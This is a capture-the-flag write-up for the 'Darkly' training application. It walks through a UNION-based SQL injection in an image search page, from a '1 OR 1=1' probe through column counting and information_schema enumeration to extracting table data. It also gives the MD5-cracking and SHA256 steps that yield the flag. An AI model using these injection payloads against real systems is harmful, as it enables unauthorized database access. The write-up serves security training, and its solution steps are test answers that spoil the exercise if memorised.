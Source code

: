 # SQL Injection in Image Search Feature

## Description

SQL Injection occurs when an application allows user-supplied input to modify or manipulate SQL queries. This vulnerability can be exploited to access unauthorized data, enumerate database schemas, and even compromise the underlying system.

## Identify the Vulnerability

The `Darkly` application includes an image search feature accessible via the following endpoint:

```plaintext
http://darkly/index.php?page=searchimg
```

The input field for searching images is vulnerable to SQL Injection, allowing attackers to manipulate database queries.

###  Steps to Exploit:

1. Test for Basic SQL Injection:
- Inject the payload `1 OR 1=1` into the input field.
- Observe that the application returns all images, confirming the vulnerability.

2. Determine the Number of Columns:
- Use the `ORDER BY` clause to identify the number of columns in the query:
  - `ORDER BY` 1 works.
  - `ORDER BY` 2 works.
  - `ORDER BY` 3 fails, indicating the query uses 2 columns.
3. Enumerate the Database Name:

- Use a `UNION` query to retrieve the database name:
```sql
1 UNION SELECT NULL, DATABASE()
```
- The database name `Member_images` is revealed.

4. Enumerate Tables:
- Use a `UNION` query to list all tables in the database:
```sql
1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 0x4d656d6265725f696d61676573
```
- The table `list_images` is identified.

5. Enumerate Columns in the Table:
- Use a `UNION` query to list columns in the `list_images` table:
```sql
1 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 0x6c6973745f696d61676573
```
- The columns `id`, `url`, `title`, and `comment` are identified.

6. Extract Data from the Columns:
- Query the `title` and `comment` fields from the `list_images` table:
```sql
1 UNION SELECT title, comment FROM list_images
```

7. Find the Flag Hint:
- One of the titles contains the following message:
```plaintext
If you read this just use this md5 decode lowercase then sha256 to win this flag!: 1928e8083cf461a51303633093573c46
```

8. Decode the MD5 Hash:
- Use a tool like CrackStation to decode the MD5 hash `1928e8083cf461a51303633093573c46`, which resolves to `albatroz`.

9. Generate the SHA256 Hash:
- Convert the result to SHA256 to retrieve the flag:
```bash
echo -n albatroz | sha256sum
```

### Observed Impact

This vulnerability allows an attacker to:
- Access sensitive data, including database schema and records.
- Enumerate tables and columns within the database.